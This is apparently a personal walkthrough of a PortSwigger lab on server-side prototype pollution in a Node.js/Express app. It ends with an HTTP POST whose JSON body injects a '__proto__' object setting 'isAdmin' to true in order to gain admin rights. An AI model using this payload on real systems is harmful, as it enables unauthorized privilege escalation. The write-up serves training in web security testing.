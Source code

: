 
# Privilege escalation via server-side prototype pollution

This lab is built on Node.js and the Express framework. It is vulnerable to server-side prototype pollution because it unsafely merges user-controllable input into a server-side JavaScript object. This is simple to detect because any polluted properties inherited via the prototype chain are visible in an HTTP response.

To solve the lab:

- Find a prototype pollution source that you can use to add arbitrary properties to the global Object.prototype.

- Identify a gadget property that you can use to escalate your privileges.

- Access the admin panel and delete the user carlos.

You can log in to your own account with the following credentials: wiener:peter

Note: When testing for server-side prototype pollution, it's possible to break application functionality or even bring down the server completely. If this happens to your lab, you can manually restart the server using the button provided in the lab banner. Remember that you're unlikely to have this option when testing real websites, so you should always use caution.

---------------------------------------------

References: 

- https://portswigger.net/web-security/prototype-pollution/server-side





![img](images/Privilege%20escalation%20via%20server-side%20prototype%20pollution/1.png)
![img](images/Privilege%20escalation%20via%20server-side%20prototype%20pollution/2.png)

---------------------------------------------

The login credentials are sent inside a JSON object but the value is not reflected:




It is possible to add data in the “update address” functionality:




It gets reflected:




In this page there is a Javascript script imported:





File “/resources/js/updateAddress.js”:





It is possible to update the “isAdmin” value even though it is not reflected in the page (we see in the code it gets filtered):

```
POST /my-account/change-address HTTP/2
...

{"address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"UK","sessionId":"e6Z5ouDA9AodwILfR7nGgH2nYPtPLzyE","__proto__":{        "isAdmin":true    }}
```




